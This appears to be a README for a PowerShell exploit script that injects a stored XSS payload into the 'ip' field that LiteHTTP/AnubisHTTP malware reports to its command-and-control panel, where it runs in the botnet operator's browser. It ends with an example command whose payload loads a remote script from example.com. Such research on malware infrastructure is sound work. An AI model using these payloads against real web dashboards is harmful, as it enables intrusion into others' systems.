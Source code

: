 # LiteHTTP/AnubisHTTP XSS 

## Summary

This script demonstrates an XSS vulnerability in LiteHTTP/AnubisHTTP malware by injecting a customizable payload into the `ip (installation_path)` parameter. The data is encrypted and sent to the malware's command and control (C2) server via a POST request.

When the bot controller views the infected machine's details on their dashboard, the XSS payload is executed, potentially compromising the controller's system.

---

## Usage

1. **Customize Parameters**:
   - **`key`**: Encryption key for securing the data.
   - **`url`**: Target C2 server endpoint.
   - **`userAgent`**: User-Agent string to simulate bot communication.
   - **`xssPayload`**: Injected XSS payload (default: `<script>alert("meow")</script>`).

2. **Run the Script**:
   - Execute in a PowerShell environment.
   - Customize parameters as needed to tailor the exploit.

3. **Result**:
   - The script injects and encrypts the XSS payload in the `ip` field.
   - The payload triggers when the controller accesses the infected machine's details.

---

### Example Command

```powershell
.\exploit.ps1 -key "9vFEwkyHsE84Q824NCDWs6dIyvzomQMI" -url "https://helo.badsite/page/gate.php" -userAgent "E9BC3BD76216AFA560BFB5ACAF5731A3" -xssPayload "<script src=http://example.com/myscript.js></script>"
```
